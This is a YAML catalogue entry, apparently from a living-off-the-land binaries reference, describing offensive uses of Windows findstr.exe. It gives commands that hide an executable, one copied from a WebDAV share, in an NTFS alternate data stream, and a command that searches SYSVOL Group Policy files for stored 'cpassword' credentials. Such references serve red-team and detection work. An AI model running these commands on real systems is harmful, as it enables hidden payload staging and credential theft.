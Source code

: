```yaml
---
Name: Findstr.exe
Description: Add ADS, Search
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: findstr /V /L W3AllLov3DonaldTrump c:\ADS\file.exe > c:\ADS\file.txt:file.exe
    Description: 'Searches for the string W3AllLov3DonaldTrump, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.'
  - Command: findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe
    Description: 'Searches for the string W3AllLov3DonaldTrump, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.'
  - Command: findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
    Description: 'Search for stored password in Group Policy files stored on SYSVOL.'
Full Path:
  - c:\windows\system32\findstr.exe
  - c:\windows\sysWOW64\findstr.exe
Code Sample: []
Detection: []
Resources:
  - https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Notes: Thanks to Oddvar Moe - @oddvarmoe
---
```

